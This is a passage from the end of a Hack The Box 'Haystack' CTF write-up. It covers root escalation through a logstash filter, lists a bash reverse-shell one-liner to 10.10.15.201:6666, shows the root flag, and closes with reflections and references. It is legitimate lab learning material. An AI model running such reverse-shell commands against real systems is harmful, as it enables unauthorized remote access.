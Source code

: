 This filter allows us to execute commands with the proper input. By placing our own `logstash_x` file into the `/opt/kibana` directory, we should get command execution.

Our logstash file follows exactly as `filter.conf` defines. Small note, our IP address has changed due to reconnecting to the Hack The Box VPN the following day.

```
Ejecutar comando : bash -i >& /dev/tcp/10.10.15.201/6666  0>&1
```

After waiting a few seconds, the command to call our reverse shell is executed.

![Rooted](/wp-content/uploads/2019/08/haystack/rooted.png)
**Figure: 5** Rooted

```console
[root@haystack /]# cat /root/root.txt
cat /root/root.txt
3f5f727c38d9f70e1d2ad2ba11059d92
```

# Conclusion
The user flag portion of this box was very CTF like. There's not much chance that in the real world you're going to come across a situation where clues are hidden in a `.jpg` and then `base64` encoded credentials are hidden in a database that contains a large amount of arbitrary data. I did learn from this experience though. This was the first time I've had to find a string hidden in an image, and it was my first experience with Elasticsearch queries.

The root portion of this box was rather difficult for me with my lack of experience in the ELK stack. It didn't take long to find the local file inclusion vulnerability, but leveraging it to get root really required me to research how `logstash` and `kibana` work. All in all I'm pleased to have completed the box.

## References
1. [https://www.socketloop.com/tutorials/elastic-search-return-all-records-higher-than-default-10]( https://www.socketloop.com/tutorials/elastic-search-return-all-records-higher-than-default-10)
2. [https://superuser.com/questions/803225/how-to-find-detect-hidden-files-inside-jpeg-file](https://superuser.com/questions/803225/how-to-find-detect-hidden-files-inside-jpeg-file)
3. [https://github.com/mpgn/CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)
4. [https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/)
5. [https://www.anquanke.com/post/id/168291](https://www.anquanke.com/post/id/168291)
6. [https://grokdebug.herokuapp.com/](https://grokdebug.herokuapp.com/)
